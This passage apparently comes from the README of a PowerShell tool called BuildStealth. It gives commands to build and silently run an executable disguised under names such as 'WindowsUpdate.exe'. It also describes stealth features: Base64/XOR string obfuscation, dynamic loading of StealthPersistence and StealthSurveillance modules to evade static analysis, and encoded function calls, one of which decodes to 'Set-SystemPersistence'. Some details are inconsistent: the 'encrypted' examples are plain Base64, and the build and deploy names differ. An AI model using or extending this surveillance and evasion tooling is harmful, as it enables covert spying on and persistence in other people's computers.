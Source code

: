 ### 2. Build Executable
```powershell
# Build with default settings
.\BuildStealth.ps1

# Build with custom name
.\BuildStealth.ps1 -OutputName "WindowsUpdate.exe"

# Build without obfuscation (for testing)
.\BuildStealth.ps1 -Obfuscate:$false

# Build without compression
.\BuildStealth.ps1 -Compress:$false
```

### 3. Deploy Executable
```powershell
# Run the compiled executable
.\SystemUpdate.exe

# Run silently
.\SystemUpdate.exe -Silent
```

## Stealth Features

### String Obfuscation
All sensitive strings are encrypted using a two-layer approach:
1. Base64 encoding
2. XOR encryption with module-specific keys

Example:
```powershell
# Original: "WindowsUpdateService"
# Encrypted: "V2luZG93c1VwZGF0ZVNlcnZpY2U="
# Decrypted at runtime using XOR key
```

### Dynamic Loading
Modules are loaded at runtime to avoid static analysis:
```powershell
# Load modules dynamically
. (Join-Path $PSScriptRoot "Modules\StealthPersistence.ps1")
. (Join-Path $PSScriptRoot "Modules\StealthSurveillance.ps1")
```

### Function Obfuscation
Function names and calls are obfuscated:
```powershell
# Obfuscated function call
$FunctionName = ConvertFrom-StealthString -EncodedString "U2V0LVN5c3RlbVBlcnNpc3RlbmNl"
& $FunctionName -Config $Config
```
